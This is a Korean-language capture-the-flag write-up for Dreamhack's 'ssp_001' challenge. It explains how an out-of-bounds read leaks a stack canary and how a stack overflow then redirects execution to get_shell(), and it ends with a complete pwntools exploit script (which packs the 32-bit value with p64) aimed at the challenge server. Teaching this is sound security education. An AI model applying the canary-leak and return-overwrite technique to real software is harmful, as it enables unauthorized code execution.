





# [Dreamhack.io] ssp_001 Write-Up

- **Platform:** Dreamhack
- **Date:** 2026-08-29 (solved) / 2026-08-31 (written)
- Difficulty: Easy
---

## 1. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 요약**
> - **목표:** ret2win (`get_shell()` 실행)
> - **제공 파일:** `ssp_001`, `ssp_001.c`
> - **보호 기법:**
> ```text
> Arch:       i386-32-little
> RELRO:      Partial RELRO
> Stack:      Canary found
> NX:         NX enabled
> PIE:        No PIE (0x8048000)
> Stripped:   No
> ```

---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석

```c
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}

/* 메뉴 출력 함수*/

int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

- `P` 옵션에서 인덱스에 대한 검증이 없어 Out of Bound 취약점 발생
- `E` 옵션에서 길이에 대한 검증이 없어 Stack BOF 취약점 발생

### `box`와 `name`의 오프셋

- gdb를 통해 두 변수의 오프셋을 구해본다.


* `main + 135`부터 `main + 150`은 사용자가 입력한 값에 따라 옵션을 분기하는 구문이다.
* `box`와 `name` 변수는 각각 `F`, `E` 옵션에서 사용되므로, `main + 155`, `main + 249`로 이동해 확인해보자.



- 함수 호출 규약에 따라 `box` 변수의 메모리는 `[ebp - 0x88]`에 위치함을 알 수 있다.




- 여기서도 함수 호출 규약에 따라 `name` 변수의 메모리는 `[ebp - 0x48]`임을 알 수 있다.

### i386 아키텍쳐에서의 함수 프롤로그



- 위의 사진은 `main` 함수 프롤로그 부분과 canary를 넣는 부분이다.
- `main + 10`과 `main + 13`은 `main` 함수의 전달인자(`int argc, char* argv[]`)를 설정하는 부분이다.
- x64 아키텍쳐와 다른 점은 `sfp`를 스택에 넣은 뒤, `edi` 값도 스택에 넣는다는 점이다.

### 취약점 원인 (Root Cause)
- **발생 원인:** 인덱스 및 길이에 대한 검증이 없어 Out of Bound, Stack Buffer Overflow 취약점 발생
- **파급 효과:** `Canary` 값 확인 가능, `RET` 주소 변경 가능

---

## 3. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ✏️ **페이로드 구성**
> 1. `box` 변수와 카나리 사이의 거리를 계산한 뒤, `P` 옵션을 통해 카나리 값과 저장된 edi 값을 유출한다.
> 2. `E` 옵션을 통해 [Dummy (buf2canary)] + [canary + saved edi] + [sfp] + [get_shell 주소]로 이루어진 페이로드를 전송한다.

### `box` 변수와 카나리 사이의 거리

* 위의 변수의 메모리상 위치가 `ebp - 0x88`이다.
* `box` 변수는 자료형이 `unsigned char`이다.
* 카나리는 `ebp - 0x8` 위치에 존재한다.

> 위의 정보를 종합하면 `box` 변수와 카나리 사이에는 0x80 바이트의 공간이 있다.
> 따라서 인덱스가 0x80 부터 0x83까지 카나리이고, 0x84부터 0x88까지는 함수 프롤로그에서 저장된 `edi` 레지스터 값이다.


---

## 4. Exploit Code (최종 익스플로잇 코드)

```python
from pwn import *

# p = process('./ssp_001')
p = remote('host3.dreamhack.games', 24223)
e = ELF('./ssp_001')

# [1] Canary, Saved EDI Leak
ssp_leak = b''
for i in range(0x80, 0x88):
    p.sendlineafter(b'> ', b'P')

    p.sendlineafter(b'Element index : ', str(i))

    p.recvuntil(b': ')

    ssp_leak = p.recv(2) + ssp_leak

ssp_leak = int(ssp_leak, 16)
print(hex(ssp_leak))

# [2] RET Overwrite
get_shell = e.symbols.get_shell

payload = b'A' * 0x40 + p64(ssp_leak) + p32(0xDEADBEEF) + p32(get_shell)

p.sendlineafter(b'> ', b'E')

p.sendlineafter(b'Name Size : ', b'90')

p.sendafter(b'Name : ', payload)

p.interactive()
```


- 다음은 원격 서버에서 실행한 결과이다.



